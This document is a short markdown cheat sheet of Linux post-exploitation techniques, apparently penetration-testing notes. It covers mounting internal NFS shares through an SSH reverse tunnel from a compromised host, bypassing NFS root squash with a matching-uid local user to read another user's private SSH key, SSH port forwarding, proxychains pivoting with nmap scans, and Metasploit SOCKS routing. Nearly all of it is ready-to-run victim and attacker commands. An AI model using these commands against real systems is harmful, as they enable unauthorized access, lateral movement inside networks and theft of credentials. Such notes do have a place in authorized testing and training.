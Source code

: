 # Linux Post Methods

## NFS Proxy Mount

tags: nfs, proxy, proxychains, mount, reverse tunnle, ssh

### Mount internal NFS share through pivot

After compromising a host as a low-priv user, if the system has access to local NFS shares, the shares can be mounted via a proxy. One method is to create a SSH proxy and mount the NFS share on the remote attack box. In the easiest of cases, the below is all that is required.

```
# victim
ssh -R 2049:$target_nfs_ip:2049 proxyusr@$atk_ip
# attacker
mount -t nfs -o port=2049 localhost:/share /mnt
```

As NFS uses multiple ports for protocol communication, and can make use of TCP or UDP, if the mount command fails, it is likely due to the `mountport` being unknown on the attacking system. This can be resolved by feeding the mount command the port manually. Run the following on the victim system to identify the port. 

```
rpcinfo -p $victim_nfs
```

Where the `mountd` port is the `mountport`, it can be fed to the mount command.

```
mount -t nfs -o port=2049,mountport=1234 localhost:/share /mnt
```

One may need to set the `-o proto=tcp` to ensure TCP is used. Or, the  NFS version may need to be set manually, such as `-o vers=3` or `-o vers=4`.

### Rootsquash / Squashfs Bypass

Some versions of NFS can be configured so that even after a proxy mount, as the root user on the attacking system, not all files can be accessed. This is due to a root squash. One way to bypass this protection is to create a local user with a matching `uid`. 

For example, after mounting the `nfs:/home` directory locally, trying to reach the user folder for `jane` as the local root user does not work.

On the victim system, run:

`id -u jane`

Collect the `uid` of jane. On the attacking system, run:

```
useradd --uid 3755
su jane
cat /mnt/jane/.ssh/id_rsa
```

## Pivoting Methods

### Local Port Forwarding
* `ssh <gateway> -L <local port to listen>:<remote host>:<remote port>`

### Remote Port Forwarding
* `ssh <gateway> -R <remote port to bind>:<local host>:<local port>`

### Dynamic Port Forwarding
* `ssh -D <local proxy port> -p <remote port> <target>`

### Proxychains
* First create a reverse tunnel from victim to attacker
    * `ssh -f -N -R 2222:127.0.0.1:22 root@208.68.234.100`
* Create dynamic application-level port forwarding on `8080`
    * `ssh -f -N -D 127.0.0.1:8080 -p 2222 hax0r@127.0.0.1`
* Configure proxychains to use port `8080` on attacking machine since the SSH
    process listening on that port will act as a SOCKS server
    * `proxychains nmap --top-ports=20 -sT -Pn 172.16.40.0/24`

### metasploit
* Add route to session
    * `route add 192.168.50.0 255.255.255.0 1`
* Setup proxy
    * `use auxiliary/server/socks4a`
    * `run`
* Select module (must be proxy aware)
    * `use auxiliary/scanner/ssh/ssh_login`
    * `set Proxies socks4:127.0.0.1:1050`
